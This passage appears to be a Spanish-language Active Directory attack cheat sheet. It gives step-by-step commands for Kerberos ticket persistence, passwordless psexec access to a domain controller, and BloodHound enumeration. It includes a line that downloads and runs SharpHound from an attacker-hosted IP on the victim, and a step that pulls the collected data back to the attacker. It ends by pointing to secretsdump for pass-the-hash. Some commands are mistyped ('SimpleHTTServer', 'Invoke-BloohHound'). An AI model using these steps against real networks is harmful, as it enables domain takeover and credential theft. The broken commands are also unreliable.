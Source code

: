 ```
<b>Paso 9:</b> Con la persistencia, podremos ingresar al DC incluso si cambian la contraseña del admin. Para ello, debemos exportar una variablede entorno llamada KRB5CCNAME, debe seri igual a la ruta donde se ecuentra el recurso ’/Ruta_Administrador.ccache’. A continuación le hacemos un ls para comprobar que se ha creado el archivo Administrador.ccache<br>
```
export KRB5CCNAME='/home/kali/Administrador.ccache' 
ls -l $KRB5CCNAME 
```
<br><br>

  
<b>Paso 10:</b> Con esta variable de entorno exportada, se puede entrar al DC con psexec.py sin 
contraseña: <br>
```psexec.py -n -k dominio.local/Administrador@DC-Company cmd.exe ```<br><br>


  
  # PRIVESC 
## Enumeración con BloodHound y Neo4j
BloodHound y Neo4j <br>
Descargar sharphound.ps1 (GitHub:bloodhoundAD/BloodHound –BloodHound/collections/SharpHound)<br><br>

### Instalación  y uso de la herramienta
  <b>Paso 1:</b> <br>
```apt install bloodhound neo4j ```<br>
Si hay problemas: 
```update-alternatives --config java (cambiar a java11) ```
<br>

  <b>Paso 2:</b> Lanzamos a la vez ambas herramientas: <br>
```
neo4j console 
bloodhound &>/dev/null & 
disown 
```
<br><br>

 <b>Paso 3:</b> Ingresar a bloodhound (neo4j/neo4j) > http://localhost:7474/ <br><br>

  <b>Paso 4:</b> Tranferir/subir sharphound.ps1 a la víctima https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1<br>
```python -m SimpleHTTServer ```<br>
```
evil-winrm: IEX(New-Object Net.WebClient).downloadString(‘http://IPatacante:8000/SharpHound.ps1’) 
```
<br><br>

  <b>Paso 5:</b> ejecutar método para crear el .zip y lo descargamos al atacante <br>
```
Evil-winrm-> Import-Module .\SharpHound.ps1
Evil-winrm-> Invoke-BloohHound -CollectionMethod All
Evil-winrm-> download 0123_BloodHound.zip
```
<br><br>
  
<b>Paso 6:</b> Subimos el archive .zip a bloodHound (navegador-Upload data) <br>


Dumpear hashes para PTH <br>
Secretsdump.py  <br>




```